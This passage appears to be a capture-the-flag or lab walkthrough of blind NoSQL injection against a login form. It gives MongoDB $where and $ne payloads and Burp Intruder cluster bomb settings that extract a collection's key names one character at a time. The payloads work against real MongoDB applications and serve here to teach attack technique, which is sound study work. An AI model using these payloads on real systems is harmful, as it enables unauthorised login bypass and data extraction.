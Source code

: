* We now have a way to determine whether the results of a query are TRUE or FALSE

	* FALSE - Invalid username or password

	* TRUE - Account locked: please reset your password


<br>


* Use the following payload to extract the names of the Keys in the NoSQL collection:

* The part "(this)[1]" targets the first Key that is listed in the targeted Object.

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "Object.keys(this)[1].match('^.{0}u.*')"
}
```

Send the above request with payload to Burp Intruder:

* Attack type:  Cluster bomb

* Set 2 payload positions like below

```json
{
  "username": "carlos",
  "password": {
    "$ne": "invalid"
  },
  "$where": "Object.keys(this)[1].match('^.{<position 1>}<position 2>.*')"
}
```

* First payload position configuration (if the password is longer than 16 characters then this will need to be adjusted)

	* Payload type:  Numbers
	* From:  0
	* To:  15

* Second payload position configuration

	* Payload type:  Simple list
	* Include lowercase/uppercase letters and numbers in payload list

* Start the attack and filter by the responses that contain the TRUE value message

* The first Key identified was called "username".  Perform the same steps for the second, third, Keys:

```json
"$where": "Object.keys(this)[<INCREMENT THIS VALUE>].match('^.{<position 1>}<position 2>.*')"
```

